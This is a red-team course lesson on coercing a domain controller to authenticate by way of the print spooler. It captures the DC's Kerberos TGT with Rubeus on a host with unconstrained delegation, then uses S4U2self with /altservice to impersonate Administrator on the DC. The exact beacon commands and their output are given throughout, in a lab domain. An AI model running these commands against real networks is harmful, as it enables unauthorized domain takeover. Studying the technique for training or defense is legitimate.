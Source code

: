 
In the previous lab on [unconstrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd18dc6d251272081c5f), there was an automated task that had the user _dyork_ interact with the CIFS service on _lon-ws-1_ (e.g. `dir \\lon-ws-1\c$`).  Because this computer was configured for unconstrained delegation, it allowed us to capture their TGT from memory and impersonate them to access the domain controller (since dyork happened to be a domain admin).

In the real world, we're obviously not guaranteed to have a user, let alone a DA, interact with the computer whilst we're monitoring for tickets.  Although there are techniques to harvest them by [seeding](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) files such as `.lnk`, `.url`, `.library-ms`, and `.searchConnector-ms`, they still rely on user-interaction.  The objective of this lesson is to go after a computer (such as domain controller) directly.

There are multiple 'remote authentication triggers' that can be used to force a computer to authenticate to another computer.  Two popular techniques include Lee Christensen's 'SpoolSample', which uses the Print System Remote Protocol [MS-RPRN]; and Topotam's 'PetitPotam', which uses the Encrypting File System Remote Protocol [MS-EFSRPC].

We could therefore monitor for tickets on lon-ws-1:

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```

Then use a tool such as [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to force _lon-dc-1_ to authenticate to _lon-ws-1_.

```powershell
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6
```

> You may need to run it a few times.

> The remote authentication trigger should be run as a standard domain user in a medium-integrity context.

Rubeus will then capture the TGT of the targeted computer account.

```powershell
[*] 21/02/2025 11:54:39 UTC - Found new TGT:

  User                  :  LON-DC-1$@CONTOSO.COM
  StartTime             :  21/02/2025 10:39:21
  EndTime               :  21/02/2025 20:38:58
  RenewTill             :  28/02/2025 10:38:58
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFt[...snip...]5DT00=
```

However, if you inject this ticket into a logon session and attempt to access the computer using a service like CIFS, you'll see that it will fail with an 'access denied' error.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: LON-DC-1$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 2/21/2025 10:39:21 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$
[-] could not open \\lon-dc-1\c$\*: 5 - ERROR_ACCESS_DENIED
```

This is because computer accounts do not get local admin access to themselves remotely.  The workaround to compromise any computer once you have its TGT is to use the S4U2self protocol to obtain a usable service ticket for a different (impersonated) user.  I believe this technique was first published by [Elad Shamir](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html) and merged into Rubeus by [Charlie Clark](https://exploit.ph/revisiting-delegate-2-thyself.html).

Charlie added a new `/self` parameter to Rubeus' `s4u` command.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:doIFt[...snip...]5DT00= /nowrap
```

Where:

- `/impersonateuser` is the user we want to impersonate.
    
- `/self` tells Rubeus not to submit an S4U2proxy request.
    
- `/altservice` is the SPN we want substituted into the service ticket.
    
- `/ticket` is the computer's TGT.

```powershell
[*] Action: S4U

[*] Building S4U2self request for: 'LON-DC-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/lon-dc-1'
[*] Got a TGS for 'Administrator' to 'cifs@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF/[...snip...]kYy0x
```

Rubeus performs an S4U2self request exactly as we saw with [constrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd211c053b7aa602ab3b) when 'Kerberos only' is in use, i.e. for the target user where the service is the computer's own SamAccountName (_Administrator@LON-DC-1$_).  This returns a valid service ticket that would normally be used in an S4U2proxy request.  However, we can't do that since there is no constrained delegation here.  Instead, Rubeus simply swaps out the service name for the service specified in the `/altservice` parameter, which in this case becomes _Administrator@cifs/lon-dc-1_.  Again, this works because the CIFS service runs under the context of the computer account (i.e. SYSTEM), so the encrypted part of the ticket can still be decrypted.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: cifs/lon-dc-1 @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a50000 -> forwardable forwarded renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 2/21/2025 12:42:53 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     02/21/2025 11:06:13   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     02/21/2025 02:38:14   DumpStack.log.tmp
 1gb      fil     02/21/2025 02:38:14   pagefile.sys
```